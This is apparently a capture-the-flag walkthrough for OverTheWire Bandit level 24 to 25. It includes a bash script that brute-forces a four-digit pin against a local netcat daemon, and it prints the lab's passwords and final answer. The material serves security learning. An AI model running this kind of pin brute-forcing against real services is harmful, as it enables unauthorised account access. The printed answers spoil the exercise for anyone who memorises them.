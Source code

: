 ```yaml
---
layout: default
title: Level 24 → Level 25
order: 25
---
```


# Level 24 → Level 25
After logging in with 

`ssh bandit24@bandit.labs.overthewire.org -p 2220`

Password: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

the game tells us that a daemon is listening on port 30002 that will print back the password for bandit25 if given the password for bandit 24 followed by a 4 digit pin-code (that we will have to bruteforce). 

Let's look at the script the daemon is running by connecting via netcat like we did in [Level 14 → Level 15]({{ site.baseurl }}/bandit/level-14_to_level-15):

`nc localhost 30002`

This will return the script's description:

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```

This means that we need to write a script that sends the password for bandit24 and the secret pincode (a number between 0000 and 9999), separated by a space. To do this, let's move into a temporary directory `cd /tmp` first, then `mktemp -d` and `cd /tmp.9dtiJmbqOqand` (where 9dtiJmbqOq is the name of your temporary directory). Then create a `bruteforce.sh` file with `touch bruteforce.sh` and edit it with `nano bruteforce.sh`. 

Let's write our script:

```
#!/bin/bash

for i in {0000..9999}
do
    echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> tries.txt
done

cat tries.txt | nc localhost 30002 > res.txt
```

Remember to put your password for bandit24 as it will change.

This will print all combinations inside `tries.txt`, then write all outcomes in `res.txt`. Let's give this file esecuting permissions with `chmod +x bruteforce.sh`, then run it.

By running `ls` we instantly see that the `tries.txt` and `res.txt` have been created.

By using `cat res.txt` we can see that all failed attempts return the same message: 

```
Wrong! Please enter the correct current password and pincode. Try again.
```

This means that we can get the password by using sort, just like we did in [Level 8 → Level 9]({{ site.baseurl }}/bandit/level-8_to_level-9) and grep, like we did in [Level 7 → Level 8]({{ site.baseurl }}/bandit/level-7_to_level-8) to filter out lines that contain a certain word:

```
sort res.txt | grep -v "again"
```

or we could also use uniq -u, as we did, again, in [Level 7 → Level 8]({{ site.baseurl }}/bandit/level-7_to_level-8)

```
uniq -u res.txt
```

`sort` will return:

```
Correct!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

while uniq -u will return:

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

in both cases the password for our next level will be:

> `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`
